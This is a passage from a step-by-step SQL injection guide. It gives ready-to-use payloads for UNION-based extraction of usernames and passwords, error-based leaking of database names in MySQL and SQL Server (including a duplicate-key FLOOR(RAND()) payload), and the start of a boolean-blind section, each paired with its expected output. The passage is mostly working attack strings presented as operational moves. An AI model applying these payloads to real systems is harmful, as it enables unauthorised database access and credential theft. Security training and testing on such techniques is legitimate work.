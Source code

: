 Microsoft SQL Server:
```sql
' UNION SELECT username+':'+password,NULL,NULL FROM users --
```

**Expected result:**
Usernames, password hashes, and emails appear where the 'A' marker appeared earlier.[6][5]

***

## 6) Error-Based SQL Injection (3 Steps)

Use this when SQL errors are displayed but UNION isn't working yet.

### Move 1: Confirm Error Leakage

**MySQL:**
```sql
' AND CAST((SELECT database()) AS SIGNED) --+
```

**Microsoft SQL Server:**
```sql
' AND 1=CONVERT(INT,(SELECT DB_NAME())) --
```

**Expected result:**
An SQL error message appears in the page containing data (e.g., "Conversion failed when converting 'shop_db'").[1][2]

### Move 2: Use Advanced Error Payload

**MySQL duplicate key error:**
```sql
' AND (SELECT 1 FROM(
    SELECT COUNT(*),
           CONCAT(0x7e,database(),0x7e,FLOOR(RAND()*2)) x
    FROM information_schema.tables
    GROUP BY x) t) --+
```

**Expected result:**
Error message includes the database name between tildes: `~shop_db~`.[1]

### Move 3: Transition to Union

Once you have basic information, use the UNION technique (§5) for systematic data extraction.

***

## 7) Boolean-Based Blind SQL Injection (4 Steps)

Use this when the page doesn't show errors but behaves differently for true vs. false conditions.

**Choose a signal:**
Use either response length or presence/absence of a specific word. Stick with one signal throughout.
